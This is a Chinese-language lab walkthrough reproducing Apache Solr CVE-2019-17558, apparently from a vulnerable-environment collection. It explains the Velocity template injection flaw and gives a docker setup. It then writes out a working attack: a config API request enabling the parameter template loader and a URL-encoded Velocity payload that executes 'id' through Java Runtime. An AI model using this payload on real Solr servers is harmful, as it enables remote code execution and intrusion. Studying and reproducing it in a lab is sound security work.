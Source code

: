 # Apache Solr Velocity 模板注入远程代码执行漏洞（CVE-2019-17558）

Apache Solr 是一个基于 Apache Lucene 构建的开源搜索平台。在 5.0.0 到 8.3.1 版本中，存在一个通过 VelocityResponseWriter 进行远程代码执行的漏洞。该漏洞的产生是因为 Velocity 模板可以通过配置集的 `velocity/` 目录中的模板文件或作为参数提供。用户定义的配置集可能包含可渲染的、潜在恶意的模板。

默认情况下，参数提供的模板是禁用的，但可以通过在响应写入器配置中将 `params.resource.loader.enabled` 设置为 `true` 来启用。需要注意的是，定义响应写入器需要配置 API 访问权限。在 Solr 8.4 版本中，完全移除了参数资源加载器，并且只有在配置集被标记为"可信"（由经过身份验证的用户上传）时才启用配置集提供的模板渲染。

参考链接：

- <https://nvd.nist.gov/vuln/detail/CVE-2019-17558>
- <https://issues.apache.org/jira/browse/SOLR-13971>
- <https://gist.github.com/s00py/a1ba36a3689fa13759ff910e179fc133>
- <https://github.com/jas502n/solr_rce>

## 环境搭建

执行如下命令启动一个Apache Solr 8.2.0服务器：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8983`即可查看到一个无需权限的Apache Solr服务。

## 漏洞复现

默认情况下`params.resource.loader.enabled`配置未打开，无法使用自定义模板。我们先通过如下API获取所有的核心：

```
http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json
```

在本环境中，`demo` 是唯一的核心：

![](1.png)

通过以下 API 启用 `params.resource.loader.enabled` 配置（API 端点为 `/solr/[核心名称]/config`）：

```
POST /solr/demo/config HTTP/1.1
Host: solr:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

然后，通过发送恶意的 Velocity 模板触发漏洞：

```
http://your-ip:8983/solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

![](2.png)
